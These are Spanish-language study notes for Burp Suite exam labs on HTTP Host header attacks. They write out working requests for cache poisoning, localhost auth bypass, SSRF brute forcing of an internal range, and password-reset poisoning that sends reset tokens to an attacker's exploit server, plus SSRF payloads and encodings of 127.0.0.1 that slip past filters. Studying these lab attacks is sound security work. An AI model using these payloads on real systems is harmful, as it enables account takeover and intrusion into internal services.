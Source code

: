 <hr>
## Qué es la cabecera HTTP Host?

La cabecera HTTP Host es una cabecera de solicitud obligatoria a partir de HTTP/1.1. Especifica el nombre de dominio a la que el cliente quiere acceder. Por ejemplo, cuando un usuario visita `https://portswigger.net/web-security`, su navegador compondrá una solicitud que contiene una cabecera de Host de la siguiente manera:

```
GET /web-security HTTP/1.1
Host: portswigger.net
```

En algunos casos, como cuando la solicitud ha sido remitida por un sistema de intermediarios, el valor de los hostels puede modificarse antes de que llegue al componente de back-end previsto. A continuación se discutirá este escenario con más detalle.

## Qué es un ataque de cabecera HTTP Host?

Los ataques de encabezados HTTP Host explotan sitios web vulnerables que manejan el valor de la cabecera de Host de una manera insegura. Si el servidor confía implícitamente en la cabecera de Host, y no lo valida o escapa adecuadamente, un atacante puede ser capaz de utilizar este intromisivo para inyectar cargas útiles dañinas que manipulan el comportamiento del lado del servidor. Los ataques que implican inyectar una carga útil directamente en la cabecera de Host a menudo se conocen como ataques de "inyección de cabecera de hosta".

Cualquiera de estos headers a añadir. 
- `X-Host`
- `X-Forwarded-Server`
- `X-HTTP-Host-Override`
- `Forwarded`
### LAB: Host Header Web Cache Poisoning Vía Ambiguous Request `alert`

```js
//Modificar el HOST, añadiendo un cache buster de test. 
GET /?cb=jsjsj HTTP/1.1
Host: web-security-academy.net
Host: Exploit-Server.net

//En exploit server -> store & deliver exploit to victim
alert(document.cookie)

//Actualizar el request al home. 
```

### LAB: Host Header Auth Bypass `admin`

```js
//admin interface is only accesible via Local

GET /admin HTTP/1.1
Host: localhost
```

### LAB:  Host Header Routing-Based SSRF `192.168.0.0/24` `admin` `Host` out of band resource load

* Algo **muy importante** en este ataque es que el Header **Host** en la opción de intruder toca darle > Desactivar Host Header Automatico, sino vale chimba ahi siempre va a remplazar el host header por el legitimo. 

![Burp-scanner](Pasted%20image%2020250220214811.png)

Si el lab no tiene login, no tiene post comments, retorna 404 el /admin y además tampoco podemos ingresar como un user, el ataque es directamente por aqui. 

Hay algo que toca definir antes de partir a resolver el laboratorio, nos brindan una ip con su notación CIDR, sin embargo en la mayoría de casos un atacante pensaría que debería atacar a los dos últimos octetos de bits de la IP lo cual es errado, en este caso vemos un octeto de notación `/24` lo cual significa que:

```jsx
192.168.0.0/24 -> 8+8+8=24 los 3 primeros octetos están estaticos
192.168.0 (ocupados) .0 (disponible para ataque brute force)
```

- La interfaz `/admin` de por sí no existe, cuando la pongo en request retorna not found, entonces el ataque lo dirigiré por intruder con param posición en el último octeto y el endpoint en `/admin` hasta que una response me retorno 200, con los posibles numeros del 0-255 iniciando en el 1, 255 porque claro es la cantidad octeto de bits posibles de cada octeto.

![[Pasted image 20250220080835.png]]

* Desactivar el Host Header automatico & ignore.  !!!!!!!!!!!!!!!!!
* Payloads Numbers [0-255] - `GET /admin HTTP/1.1`

```js
SSRF to access admin panel somewhere in 192.168.1.0/24
-> confirm you can change host to your collaborator
-> deselect in intruder update host header to match target
-> Host: 192.168.0.§1§
```

### LAB:  SSRF via flawed request parsing `192.168.0.0/24` `admin` `Host vulnerable`

* Y el campo check: Update Host header to match target lo desactivo efectivamente.

```js
GET https://vulnerable-website.com/admin HTTP/1.1
Host: 192.168.0.§1§ //intruder attack
Connection: Close
Content-Length: ... etc

//luego vemos que para eliminar un user es con el method POST y ahí en la misma response nos da un token CSRF para tal acción: 
---->
GET https://Vulnerable-website.com/admin/delete?username=carlos&csrf=ValueCSRF HTTP/2
Host: 192.168.0.125
```

### LAB: Host validation bypass via connection state attack `Paralell Single Connection` `admin panel`

* Un ataque en repeater de tipo `Paralell Single Connection` 2 Request, una legitima la otra modificada intencionalmente. 
* (in the exam it would be probably `localhost:6566`)

```js
// REQUEST 1 -> Legitima
GET / HTTP/1.1
Host: ID-LAB.com
Connection: keep-alive

// REQUEST 2 -> Maliciosa
GET /admin HTTP/1.1
Host: 192.168.0.1
```

### Spoof IP Address Host Header

> _**Identify**_ that altered HOST headers are supported, which allows you to spoof your IP address and bypass the IP-based brute-force protection or redirection attacks to do password reset poisoning.

> Include the below `X-` headers and change the username parameter on the password reset request to `Carlos` before sending the request.  
> In the BSCP exam if you used this exploit then it means you have not used a vulnerability that require user interaction and allow you to use an interaction vulnerability to gain access to stage 3 as admin by using exploit server `Deliver exploit to victim` function.

```html
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
```

> Check the exploit server log to obtain the reset link to the victim username.

[![Exploit Server Logs capture the forgot password reset token](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/HOST-Header-forgot-password-reset.PNG)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/HOST-Header-forgot-password-reset.PNG)

> SSRF Sample payloads.

```html
/product/nextProduct?currentProductId=6&path=https://EXPLOIT.net  

stockApi=http://localhost:6566/admin  

http://127.1:6566/admin  

Host: localhost
```

> Alternative IP representation of `127.0.0.1`:

1. 2130706433
2. 017700000001
3. 127.1


